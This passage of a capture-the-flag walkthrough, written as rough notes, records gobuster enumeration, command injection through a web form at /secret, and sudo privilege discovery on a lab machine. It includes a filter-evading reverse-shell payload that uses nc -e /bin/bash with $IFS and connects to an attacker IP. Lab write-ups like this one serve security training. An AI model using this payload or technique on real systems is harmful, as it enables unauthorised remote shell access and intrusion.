 ┌──(kali㉿kali)-[~]
└─$ cat note.txt 
Anurodh told me that there is some filtering on strings being put in the command -- Apaar

3. Gobuster

```
──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.32.71 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.32.71
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/09 14:37:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
2021/01/09 14:39:23 Finished
===============================================================
                                                             ```
4. In /secret there is an empty field, time for sqlmap (launched in the background)
http://10.10.32.71/secret/

I tried ls ---> Are you a hacker?
I tried pwd --> it gave me a path
I tried sudo-l ---> it gave me username `apaar` and a path to script

```
Matching Defaults entries for www-data on ubuntu: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User www-data may run the following commands on ubuntu: (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh 
```

# So I try
```
sudo -u apaar /home/apaar/.helpline.sh
```

and I get   Welcome to helpdesk. Feel free to talk to anyone at any time! Thank you for your precious time! 

# I also try
<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>
and launch netcat in the same time but there is nothing, and no message, so maybe lets check websource and also launch burp
----> nothing

# Id - works

```